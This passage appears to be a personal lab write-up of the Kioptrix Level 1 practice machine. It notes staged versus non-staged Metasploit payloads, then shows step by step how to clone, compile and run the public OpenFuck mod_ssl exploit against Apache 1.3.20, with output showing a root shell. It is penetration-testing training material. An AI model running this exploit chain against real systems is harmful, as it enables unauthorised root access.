 
**Notes** -
1. above in **show targets**, we have only one target that's why we don't need this but when we have more than one target then it requires.
2. The first time we use **exploit** and it doesn't work because we use staged payload and second time we switched to non-staged payload.
3. In **set payload linux/x86/** we hit **TAB** to find correct payload(non-staged).

## Exploiting mod_ssl
1. Back to enumeration, we navigate to [openfuck](https://github.com/heltonWernik/OpenLuck ) and download this exploit.
	```python
	┌──(hyok㉿kali)-[~]
	└─$ sudo git clone https://github.com/heltonWernik/OpenFuck.git /opt/openfuck

	┌──(hyok㉿kali)-[/opt/openfuck]
	└─$ ls
	OpenFuck.c  README.md

	┌──(hyok㉿kali)-[/opt/openfuck]
	└─$ sudo apt-get install libssl-dev

	┌──(hyok㉿kali)-[/opt/openfuck]
	└─$ gcc -o OpenFuck OpenFuck.c -lcrypto

	┌──(hyok㉿kali)-[/opt/openfuck]
	└─$ ls
	OpenFuck  OpenFuck.c  README.md

	┌──(hyok㉿kali)-[/opt/openfuck]
	└─$ ./OpenFuck   
	: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)

```

2. Choosing the target:
![[openfuck1.png]]
The reason to choose this one, is just for **apache-1.3.20-16** and **RedHat Linux**.

3. Running openfuck exploit:
```python
┌──(hyok㉿kali)-[/opt/openfuck]
└─$ ./OpenFuck 0x6b 192.168.1.7 -c 40
```
**Output** - 
```python
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1
```

